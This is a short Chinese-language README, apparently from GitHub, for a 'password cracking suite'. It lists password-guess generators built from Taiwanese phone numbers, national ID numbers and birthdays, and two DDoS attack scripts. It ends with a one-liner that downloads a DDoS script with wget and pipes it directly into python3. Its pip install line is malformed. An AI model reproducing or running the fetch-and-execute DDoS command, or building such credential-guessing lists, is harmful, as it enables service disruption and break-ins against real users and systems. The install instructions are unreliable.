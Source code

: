 # 密碼破解套件
此腳本基於Python 使用前請先確定電腦上有安裝Python

## 必要套件
- webbrowser
- request
- socket

```js
python -m pip install webbrowser, requests, socket
```

## 注意事項
- 請先安裝Python
- 請不要拿去幹壞事
- 此腳本非常吃電腦資源
- 有bug請開issues通知
- 希望增加功能也請在issues建議

## 已完成功能(密碼生成器)
- 台灣手機電話號碼(09xxxxxxxx) 
- 台灣"無區碼"市話號碼(xxxx-xxxx) 
- 台灣"含區碼"市話號碼((xx)xxxx-xxxx)
- 台灣國際號碼(886xxxxxxxxx) 
- 台灣身份證字號(Xxxxxxxxxx)
- 亂數(123....) 
- 民國生日(xx.xx.xx) 
- 西元生日(xxxx.xx.xx) 

## 已完成功能(攻擊)
- 以下兩個版本的攻擊原理不一樣
- DDOS攻擊第一版(By:Andysun06)
- DDOS攻擊第二版(By:ChengChinHsia)

## 親自部署攻擊
```js
wget -qO-  https://raw.githubusercontent.com/ChengChinHsia-Pig/pwd-gen/main/attacks/DDOS-2.py | python3 -
```
> Last Update:2022/09/11
